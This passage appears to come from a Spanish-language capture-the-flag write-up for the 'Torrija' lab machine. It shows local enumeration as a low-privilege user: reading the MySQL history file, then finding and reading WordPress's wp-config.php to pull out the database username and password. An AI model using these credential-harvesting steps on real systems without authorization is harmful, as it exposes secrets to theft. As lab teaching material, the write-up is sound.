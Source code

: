 
<h2 id="MySQL">Enumeración de la Máquina Víctima y Enumeración del Servicio MySQL</h2>

Revisando todos los archivos del **usuario premo**, vemos que podemos leer el historial de **MySQL**:
```bash
premo@Torrija-TheHackersLabs:~$ ls -la
total 28
drwxr-xr-x 2 premo premo 4096 feb 13 18:01 .
drwxr-xr-x 5 root  root  4096 feb 13 17:28 ..
lrwxrwxrwx 1 root  root     9 feb 13 18:01 .bash_history -> /dev/null
-rw-r--r-- 1 premo premo  220 abr 23  2023 .bash_logout
-rw-r--r-- 1 premo premo 3526 abr 23  2023 .bashrc
-rw------- 1 premo premo  101 feb 13 17:56 .mysql_history
-rw-r--r-- 1 premo premo  807 abr 23  2023 .profile
-r-------- 1 premo premo   36 feb 13 17:49 user.txt
```

Leámoslo:
```bash
premo@Torrija-TheHackersLabs:~$ cat .mysql_history 
_HiStOrY_V2_
show\040databases;
use\040Torrijas;
show\040tables;
select\040*\040from\040primo;
exit;
```
Entró, vio las bases de datos, luego utilizó una BD llamada **Torrijas**, vio sus tablas y leyó el contenido de la tabla **primo**.

Esto ya nos da una idea de qué buscar.

Recordemos que **WordPress** tiene el archivo **wp-config.php**, pues este almacena el usuario y contraseña para entrar al **servicio MySQL**.

Podemos buscarlo con **find**:
```bash
premo@Torrija-TheHackersLabs:~$ find / -type f -name "wp-config.php" 2>/dev/null
/var/www/html/wordpress/wp-config.php
```

Leámoslo:
```bash
premo@Torrija-TheHackersLabs:~$ cat /var/www/html/wordpress/wp-config.php | head -n 40 | sed -n '/\/\*\* The name of the database for WordPress \*\//,$p'
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'afdvasgvfdsabdgvs6a9vd8sv' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
```
Muy bien, tenemos un usuario y contraseña.
